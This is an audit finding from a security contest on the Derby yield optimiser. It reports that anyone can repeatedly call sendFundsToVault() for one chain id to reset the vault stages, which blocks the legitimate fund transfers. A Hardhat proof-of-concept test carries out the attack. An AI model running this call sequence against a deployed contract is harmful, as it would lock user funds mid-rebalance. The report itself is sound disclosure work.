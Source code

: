 saidam017

medium

# Vault can be denied from receiving Funds while rebalancing, also leaving the vault to stuck in `State.WaitingForFunds`.

## Summary

While in rebalancing period, in step where `xChainController.sol` need to send funds to vault trough `sendFundsToVault()`, malicious user can deny the process by triggering unwanted `sendFundsToVault()`.

## Vulnerability Detail

`xChainController.sol` need to send funds to vault trough `sendFundsToVault()`, iterating each chain id of vault, but malicious user can call this function for the same chain id, especially chain id which not supposed to receive funds or even inactive chain id vault but still incrementing `vaultStage[_vaultNumber].fundsSent`.

incrementing `vaultStage[_vaultNumber].fundsSent` will call `resetVaultStages()` if `vaultStage[_vaultNumber].fundsSent == chainIds.length` that will reset `vaultStage[_vaultNumber].fundsReceived = 0`. This will deny the proper `sendFundsToVault()` call  since `onlyWhenFundsReceived` will cause the call to revert (caused by `vaultStage[_vaultNumber].fundsReceived = 0`).

## PoC

Scenario : rebalance reach the `sendFundsToVault()` process. Vault is available on 4 chain, only the third chain need to receive fund, but malicious user repeatedly calling `sendFundsToVault()` with using other chain id until `resetVaultStages()` called. The required funds will not received since calling `sendFundsToVault()` again will revert.

```javascript
  it('5) Trigger xChainController to send funds to vaults (modified)', async function () {
    const chainIds = await xChainController.getChainIds();
    // malicious user increase the fundSent, even though allocation is zero and not receiving anything
    await xChainController.sendFundsToVault(vaultNumber, slippage, chainIds[3], relayerFee, {
      value: parseEther('0.1'),
    });
    console.log(`do first the chain id: ${chainIds[3]}`);
    // malicious user increase the fundSent, even though allocation is zero and not receiving anything
    await xChainController.sendFundsToVault(vaultNumber, slippage, chainIds[3], relayerFee, {
      value: parseEther('0.1'),
    });
    console.log(`do second the chain id: ${chainIds[3]}`);
    
    // in this loop, only the first two chainIds will be successfully called
    for (let chain of chainIds) {
      if (chain == 10000 || chain == 1000) {
        // when enter this, fundReceived state already 0 again (reseted);
        await expect(xChainController.sendFundsToVault(vaultNumber, slippage, chain, relayerFee, {
          value: parseEther('0.1'),
        })).to.be.revertedWith('Not all funds received');
      } else {
        await xChainController.sendFundsToVault(vaultNumber, slippage, chain, relayerFee, {
          value: parseEther('0.1'),
        });
      }

    }

    const expectedAmounts = [
      (398 / 2000) * 240_000, // vault 1
      (600 / 2000) * 240_000 + 60_000, // vault 2 should have the request of 60k
      (1000 / 2000) * 240_000, // vault 3 should have received 150k from controller, but denied
    ];

    expect(formatUSDC(await IUSDc.balanceOf(vault1.address))).to.be.equal(expectedAmounts[0]);
    expect(formatUSDC(await IUSDc.balanceOf(vault2.address))).to.be.equal(expectedAmounts[1]);
    expect(formatUSDC(await IUSDc.balanceOf(vault3.address))).to.be.equal(0);


    expect(formatUSDC(await vault1.getVaultBalance())).to.be.equal(expectedAmounts[0]);
    expect(formatUSDC(await vault2.getVaultBalance())).to.be.equal(expectedAmounts[1]);
    expect(formatUSDC(await vault3.getVaultBalance())).to.be.equal(0);

  });
```

## Impact

This will leave vault on some chain not receive the calculated funds and stuck in state waiting to receive funds (`State.WaitingForFunds`). 

## Code Snippet

https://github.com/sherlock-audit/2023-01-derby/blob/main/derby-yield-optimiser/contracts/XChainController.sol#L439-L440

```solidity
  function sendFundsToVault(
    uint256 _vaultNumber,
    uint256 _slippage,
    uint32 _chain,
    uint256 _relayerFee
  ) external payable onlyWhenFundsReceived(_vaultNumber) {
    address vault = getVaultAddress(_vaultNumber, _chain);
    require(vault != address(0), "xChainController: not a valid vaultnumber");
    if (!getVaultChainIdOff(_vaultNumber, _chain)) {
      uint256 amountToDeposit = getAmountToDeposit(_vaultNumber, _chain);

      if (amountToDeposit > 0) {
        address underlying = getUnderlyingAddress(_vaultNumber, _chain);

        uint256 balance = IERC20(underlying).balanceOf(address(this));
        if (amountToDeposit > balance) amountToDeposit = balance;

        IERC20(underlying).safeIncreaseAllowance(address(xProvider), amountToDeposit);
        xProvider.xTransferToVaults{value: msg.value}(
          vault,
          _chain,
          amountToDeposit,
          underlying,
          _slippage,
          _relayerFee
        );
        setAmountToDeposit(_vaultNumber, _chain, 0);
        emit SentFundsToVault(vault, _chain, amountToDeposit, underlying);
      }
    }
    vaultStage[_vaultNumber].fundsSent++; // this line will be always triggered
    if (vaultStage[_vaultNumber].fundsSent == chainIds.length) resetVaultStages(_vaultNumber);
  }
```

## Tool used

Manual Review

## Recommendation

consider adding state to track so `vaultStage[_vaultNumber].fundsSent++;` can't be  triggered by the same chain id.
